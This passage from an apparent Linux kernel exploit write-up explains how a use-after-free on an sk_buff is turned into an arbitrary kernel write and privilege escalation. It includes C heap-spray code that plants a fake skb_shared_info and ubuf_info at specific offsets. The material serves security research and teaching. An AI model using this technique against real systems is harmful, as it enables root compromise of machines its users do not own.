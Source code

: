 When the `sk_buff` object with overwritten `skb_shared_info` is received, the kernel executes the `destructor_arg` callback, which performs an arbitrary write of kernel memory and escalates user privileges. **How?** Keep reading!

I should note that this part, with use-after-free on `sk_buff`, is the exploit's main source of instability. It would be nice to find a better kernel object that can be allocated in `kmalloc-*` slab caches and exploited for turning use-after-free into arbitrary read/write of kernel memory.

## Arbitrary write with skb_shared_info

Let's look at the code that prepares the payload for overwriting the `sk_buff` object:

```c
#define SKB_SIZE		4096
#define SKB_SHINFO_OFFSET	3776
#define MY_UINFO_OFFSET		256
#define SKBTX_DEV_ZEROCOPY	(1 << 3)

void prepare_xattr_vs_skb_spray(void)
{
    struct skb_shared_info *info = NULL;

    xattr_addr = spray_data + PAGE_SIZE * 4 - SKB_SIZE + 4;

    /* Don't touch the second part to avoid breaking page fault delivery */
    memset(spray_data, 0x0, PAGE_SIZE * 4);

    info = (struct skb_shared_info *)(xattr_addr + SKB_SHINFO_OFFSET);
    info->tx_flags = SKBTX_DEV_ZEROCOPY;
    info->destructor_arg = uaf_write_value + MY_UINFO_OFFSET;

    uinfo_p = (struct ubuf_info *)(xattr_addr + MY_UINFO_OFFSET);
```

The `skb_shared_info` structure resides in the sprayed data exactly at the offset `SKB_SHINFO_OFFSET`, which is 3776 bytes. The `skb_shared_info.destructor_arg` pointer stores the address of `struct ubuf_info`. I create a fake `ubuf_info` at `MY_UINFO_OFFSET` in the network buffer itself. This is possible since the kernel address of the attacked `sk_buff` is known. Here is the payload layout:
